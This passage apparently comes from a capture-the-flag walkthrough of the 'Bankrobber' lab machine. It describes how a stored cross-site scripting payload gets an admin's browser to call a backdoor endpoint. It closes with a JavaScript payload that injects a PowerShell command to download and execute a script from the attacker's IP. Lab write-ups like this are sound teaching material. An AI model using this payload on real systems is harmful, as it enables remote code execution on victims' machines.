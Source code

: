 </a>

That's the signal to login to the admin page.

<a class="image-popup">
![92913034.png](/assets/images/posts/bankrobber-htb-walkthrough/92913034.png)
</a>

Once you hit accept, a HTTP GET comes knocking on our door, requesting for `hacked.png`.

<a class="image-popup">
![b25df392.png](/assets/images/posts/bankrobber-htb-walkthrough/b25df392.png)
</a>

Sweet. But first, let's take a peek at how the backdoor remote command execution (`system.js`) is implemented.

<a class="image-popup">
![896c1641.png](/assets/images/posts/bankrobber-htb-walkthrough/896c1641.png)
</a>

Well, I could use XHR to reach http://localhost/admin/backdoorchecker.php. That should work. Check it out.

```
<script>
function hello() {
  var http=new XMLHttpRequest();
  var url='http://localhost/admin/backdoorchecker.php';
  var params="cmd=dir | powershell /c iex (new-object net.webclient).downloadstring('http://10.10.15.23/nmap.txt')";
  http.open('POST',url,true);
  http.setRequestHeader('Content-type','application/x-www-form-urlencoded');
  http.send(params);
}
hello();
</script>
```

